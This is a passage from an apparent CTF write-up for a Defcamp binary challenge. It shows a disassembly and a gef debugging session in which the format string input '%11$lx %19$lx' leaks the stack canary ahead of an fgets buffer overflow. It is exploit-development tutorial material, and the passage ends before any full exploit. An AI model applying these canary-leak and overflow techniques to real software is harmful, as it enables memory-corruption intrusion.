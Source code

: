 ```asm
   0x00000000000007e5 <+107>:	mov    eax,0x0
   0x00000000000007ea <+112>:	call   0x640 <printf@plt>
   0x00000000000007ef <+117>:	lea    rdi,[rip+0xd2]        # 0x8c8
   0x00000000000007f6 <+124>:	mov    eax,0x0
   0x00000000000007fb <+129>:	call   0x640 <printf@plt>
   0x0000000000000800 <+134>:	mov    rdx,QWORD PTR [rbp-0x28]
   0x0000000000000804 <+138>:	lea    rax,[rbp-0x20]
   0x0000000000000808 <+142>:	mov    esi,0x100
   0x000000000000080d <+147>:	mov    rdi,rax
   0x0000000000000810 <+150>:	call   0x650 <fgets@plt>
   0x0000000000000815 <+155>:	mov    eax,0x0
   0x000000000000081a <+160>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x000000000000081e <+164>:	xor    rcx,QWORD PTR fs:0x28   <- This line checks whether the provided canary is equal to the one calculated before
   0x0000000000000827 <+173>:	je     0x82e <main+180>
   0x0000000000000829 <+175>:	call   0x630 <__stack_chk_fail@plt>
   0x000000000000082e <+180>:	leave  
   0x000000000000082f <+181>:	ret    
End of assembler dump.
```

Let's try to check those two offsets 11 and 19 to see if it's the stack canary or not:-

At first, we need to setup a breakpoint at the instruction where the comaprison happens i.e. `main+164` and we will just give random input at second and analyse the registers.

```asm
gef➤  b *main+164
Breakpoint 1 at 0x81e
gef➤  r
Starting program: /home/robin/CTFs/Defcamp/q3 
Enter name : %11$lx %19$lx 
Hello
50a01b0663fa1e00 ebd42dea12670b41
Enter sentence : AAAA
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x50a01b0663fa1e00
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffdd10  →  0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
$rbp   : 0x00007fffffffdd40  →  0x0000555555554830  →  <__libc_csu_init+0> push r15
$rsi   : 0x00007fffffffdd20  →  0x2520000a41414141 ("AAAA"?)
$rdi   : 0x00007fffffffdd21  →  0x312520000a414141 ("AAA"?)
$rip   : 0x000055555555481e  →  0x000028250c334864 ("dH3
                                                        %("?)
$r8    : 0x0000555555756675  →  "x %19$lx"
$r9    : 0x00007ffff7fd24c0  →  0x00007ffff7fd24c0  →  [loop detected]
$r10   : 0x00007ffff7fd24c0  →  0x00007ffff7fd24c0  →  [loop detected]
$r11   : 0x246             
$r12   : 0x0000555555554670  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffde20  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd10│+0x0000: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp	 ← $rsp
```